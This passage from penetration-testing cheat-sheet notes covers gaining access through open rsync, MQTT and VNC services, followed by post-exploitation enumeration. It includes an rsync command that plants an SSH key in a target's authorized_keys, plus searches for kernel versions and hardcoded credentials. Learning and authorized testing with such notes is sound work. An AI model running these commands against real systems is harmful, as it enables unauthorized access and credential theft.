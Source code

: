  WE can also upload files in target system using rsync
 IN below example we are uploading ssh key in users directory using rsync
 
> rsync -av ~/.ssh/id_rsa.pub rsync://username@$ip:873/UserHomeDirectory/.ssh/authorized_keys
 
 
         

## Mqtt
 Mqtt is a iot communication service . If this is running we can enumarate this for any information gathering
 
 1. First insatll mqqt python client shell from github  (https://github.com/bapowell/python-mqtt-client-shell)
 
 2. Then run it and select the protocol version of mqtt(WE can try different ones if one dont work)
 
 3. Now type connection in shell and in next prompt type host IPaddress. Do same for PORT in next prompt
 
 4. NOw type connect and we are in
 
 
>  https://book.hacktricks.xyz/pentesting/1883-pentesting-mqtt-mosquitto


## VNC (Similiar to RDP)

if we have a encrypted password we can decrypt it online by searching vnc password decrypt

or if we have a password file we can use it directly to authenticate

> vncviewer $IPADDRESS:$PORT -passwd passwdfile


# #######


# POST EXPLOITATION
 

### Kernel EXploits

cat /etc/*release
uname -a

### Find file having specific name and case insensitive


find / -type f -iname "*stringfilename*"

### Finding harcoded credentials in all files of given directory

we can put passwords or credentials string in double quotes.Also we can specify any directory we want instead of /
